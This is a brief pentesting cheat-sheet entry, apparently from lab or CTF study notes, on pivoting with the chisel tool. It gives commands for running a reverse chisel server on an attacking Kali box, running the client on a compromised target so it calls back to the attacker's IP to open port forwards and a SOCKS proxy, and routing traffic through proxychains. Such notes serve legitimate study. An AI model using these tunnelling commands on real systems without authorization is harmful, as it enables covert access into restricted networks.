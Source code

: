 ```yaml
---
tags:
  - tool
  - routing
---
```

# chisel

Route network traffic in restricted environments

## Capabilities

Edit `/etc/hosts` to resolve `127.0.0.1` to a hostname if necessary

Set up `chisel` in `server` mode on attacking box. This is essentially a `netcat` listener that will listen for connections on port `8050`

```bash
# Listen on 8050
chisel server -p 8050 --reverse

# Listen on 8050, allowing chisel to see the local socks5 proxy (proxychains)
chisel server --socks5 -p 8050 --reverse
```

Upload `chisel` or `chisel.exe` to target and run in `client` mode. The command `client 10.10.14.191:8050 R:socks` will reach out to our listener at `10.10.14.191:8050` and act as a SOCKS proxy, forwarding all of our traffic to its appropriate destination

```powershell
# Listen on Kali 80, forward to localhost port 80 on the target
chisel client 10.10.14.191:8050 R:80:127.0.0.1:80

# Listen on Kali 4444, forward to 10.10.10.240 port 80 on the target
chisel client 10.10.14.191:8050 R:4444:10.10.10.240:80

# Create SOCKS5 listener on 1080 on Kali, proxy through client
chisel client 10.10.14.191:8050 R:socks
```

Modify `/etc/proxychains4.conf`

```bash
# ... At the very bottom of the file, we set the ProxyList to only point to port 9999.
[ProxyList]
socks5 127.0.0.1 1080
```

Now when we run the following command

```bash
proxychains ping 172.16.1.12
```

Proxychains will take the command and send it through our chisel tunnel